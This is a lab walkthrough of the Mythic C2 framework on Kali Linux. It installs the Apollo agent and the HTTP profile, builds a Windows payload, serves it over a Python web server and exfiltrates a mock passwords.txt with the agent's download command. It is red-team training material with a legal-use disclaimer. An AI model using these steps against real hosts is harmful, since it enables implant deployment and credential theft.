 # Mythic C2 Framework Demonstration

This demonstration showcases the process of setting up and using the **Mythic C2 framework** for a red teaming scenario. In this example, I set up the **Apollo agent** on **Kali Linux** and targeted a **Windows Server** to simulate a controlled command and control (C2) environment. The focus is on setting up the C2 profile, generating a payload, deploying it, and demonstrating a post-exploitation task.

## Setting Up Mythic and Apollo Agent

I began by installing the Mythic C2 framework on **Kali Linux**. Mythic offers a versatile C2 platform with multiple agents, and for this demonstration, I chose the **Apollo agent** due to its rich feature set and ease of configuration.

1. **Clone the Mythic repository** on Kali:
   ```bash
   git clone https://github.com/its-a-feature/Mythic
   cd Mythic

2. Install Apollo agent via Mythic’s command-line interface (CLI):

bash
Copy code
sudo ./mythic-cli install agent from https://github.com/MythicAgents/Apollo

3. Once installed, the Apollo agent appeared in the Mythic web GUI, ready for configuration.

Configuring HTTP C2 Profile
Next, I configured the HTTP C2 profile for communication between the attacker (C2 server) and the target (Windows Server). This involved setting up a communication channel that could handle traffic over HTTP.

1. Install the HTTP C2 profile from the Mythic GitHub repository:

bash
Copy code
sudo ./mythic-cli install c2_profile from https://github.com/MythicC2Profiles/http
2. In the Mythic web GUI, I set the C2 profile’s callback host to my public IP and selected port 80 for communication.

Creating and Deploying the Payload
With the agent and C2 profile in place, I moved forward with creating the payload. This payload was designed for Windows and configured to use the HTTP C2 profile for communication.

1. Generate the payload in the Mythic web GUI:

Choose the Apollo agent.
Configure the payload to target a Windows executable format.
Set the callback communication to use the HTTP profile with my Kali Linux server as the host.
Include necessary commands for post-exploitation.

2. Host the payload on Kali Linux using a Python HTTP server:

bash
Copy code
python3 -m http.server 9999
This allowed the Windows target machine to download the payload from my Kali machine, simulating a real-world payload delivery scenario.

Execution and Establishing C2
After the payload was downloaded and executed on the Windows Server, I confirmed that the C2 session was established through the Mythic web interface. The Apollo agent successfully called back to the C2 server, and the session was live.

Check active connections on the Windows target using:

bash
Copy code
netstat -anob
The process associated with the Apollo agent was visible, confirming the successful establishment of the C2 session.

Post-Exploitation: File Exfiltration
As part of the post-exploitation phase, I demonstrated the retrieval of sensitive information from the target system. I created a mock password file on the Windows Server named passwords.txt and stored it in the Administrator's Documents folder.

1. Password file setup: Before launching the attack, I created a text file with mock credentials on the target system:

plaintext
Copy code
C:/Users/Administrator/Documents/passwords.txt
2. Retrieve the file using the Apollo agent's download command:

bash
Copy code
download C:/Users/Administrator/Documents/passwords.txt
3. The contents of the file (Winter2024!) were successfully exfiltrated and displayed in the Mythic interface.

Conclusion
This demonstration highlights the flexibility of the Mythic C2 framework in establishing a C2 session and performing post-exploitation tasks, including file exfiltration. By leveraging the Apollo agent and the HTTP C2 profile, I was able to simulate a realistic attack scenario, showing the practical use of Mythic in red teaming exercises.

It's important to note that this demonstration was conducted in a controlled environment with Kali Linux and a test Windows Server. These techniques should only be used for ethical hacking purposes with explicit permission. Unauthorized use of these tools is illegal.


